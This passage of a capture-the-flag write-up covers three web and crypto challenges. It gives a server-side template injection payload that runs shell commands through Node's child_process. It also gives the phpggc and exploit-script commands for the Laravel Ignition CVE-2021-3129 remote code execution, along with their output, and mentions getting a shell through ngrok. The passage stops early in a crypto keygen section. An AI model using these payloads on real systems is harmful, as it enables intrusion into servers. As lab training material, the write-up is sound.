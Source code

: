 we can enter *#{7+7}* to test and see it displays 14. So now we simply need to access the node process and we can get RCE. We display the flag by posting the following

​	#{process.mainModule.require('child_process').execSync('cat /flag*')}


Flag: HTB{SST1_by_f0rc3}

### Userland City 

The provided information informs us that the server is running laravel in debug more, we can send an unsupported http method to an endpoint to test this. If we send a POST request to / it will give us laravels debug interface, where we can get the version information. We see it is running laravel 8.10.0 and php 7.4.12.

If we google "laravel 8.10.0 exploit" we will be greeted with a bunch of information about [CVE-2021-3129](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3129) along with a bunch of automated scripts to exploit it.

If we use this [script](https://github.com/ambionics/laravel-exploits) along with [phpggc](https://github.com/ambionics/phpggc) and follow the instructions provided by the script by entering the following commands we get RCE. 

```bash
┌──(hilbert㉿kali)-[~/CTFs/Synack/Web/UserlandCity]
└─$ php -d'phar.readonly=0' ./phpggc/phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system id
┌──(hilbert㉿kali)-[~/CTFs/Synack/Web/UserlandCity]
└─$ /laravel-ignition-rce.py http://178.62.19.68:31142/ /tmp/exploit.phar
+ Log file: /www/storage/logs/laravel.log 
+ Logs cleared
+ Successfully converted to PHAR 
+ Phar deserialized
--------------------------
uid=1000(www) gid=1000(www) groups=1000(www)
--------------------------
+ Logs cleared
```

We can enumerate the file system and see the flag is in the root directory. For some reason I couldn't cat it with the exploit even tho I could cat other files. If we use ngrok tho and pop a shell then we can cat it fine                             

Flag: HTB{p0p..p0p..p0p..th0s3_ch41ns_0n_th3_w4y_t0_pr1s0n}

if you want to read more about the exploit and how it works or to do it manually you can read [here](https://www.ambionics.io/blog/laravel-debug-rce)



<h1 align="center">Crypto</h1>



### Spy

Examining the source code we see that they keys are being generated like so

```python
def keygen():
    random.seed(BYTE_SIZE)
    h = random.getrandbits(BIT_SIZE)
    for i in range(BIT_SIZE):
        random.seed(time.time())
        h = h ^ random.getrandbits(2*BIT_SIZE//BYTE_SIZE)
    return hex(h)[2:-1]
```
